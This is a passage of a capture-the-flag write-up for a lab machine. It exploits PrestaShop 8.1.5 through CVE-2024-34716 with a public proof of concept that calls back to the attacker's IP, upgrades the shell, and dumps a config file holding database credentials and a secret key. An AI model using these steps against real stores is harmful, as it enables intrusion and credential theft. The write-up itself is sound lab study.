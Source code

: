 The website is built with PrestaShop 8.1.5

# Exploit

## CVE-2024-34716

Search for some information about PrestaShop 8.1.5, i find a poc for [CVE-2024-34716](https://github.com/aelmokhtar/CVE-2024-34716)

Download and use this poc, take a request to ```http://shop.trickster.htb/ps_next_8_theme_malicious.zip``` and i get a RCE with user ```www-data```

```console
python exploit.py --url http://shop.trickster.htb/ --email ficstkeyfx@trickster.htb --local-ip <LOCAL-IP> --admin-path admin634ewutrx1jgitlooaj
```
![image](https://raw.githubusercontent.com/ficstkeyfx/ficstkeyfx.github.io/refs/heads/main/.github/images/20241025_www_rce.png)

## Search Config File


Now, we have a rce, stable shell by ```python``` and take a look at the folder, we will see some configuration files in website and see an suspicious about database configuration in ```/app/config/parameters.php```

```console
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

```console
<?php return array (
  'parameters' => 
  array (
    'database_host' => '127.0.0.1',
    'database_port' => '',
    'database_name' => 'prestashop',
    'database_user' => 'ps_user',
    'database_password' => 'prest@shop_o',
    'database_prefix' => 'ps_',
    'database_engine' => 'InnoDB',
    'mailer_transport' => 'smtp',
    'mailer_host' => '127.0.0.1',
    'mailer_user' => NULL,
    'mailer_password' => NULL,
    'secret' => 'eHPDO7bBZPjXWbv3oSLIpkn5XxPvcvzt7ibaHTgWhTBM3e7S9kbeB1TPemtIgzog',
    'ps_caching' => 'CacheMemcache',
    'ps_cache_enable' => false,
    'ps_creation_date' => '2024-05-25',
    'locale' => 'en-US',
```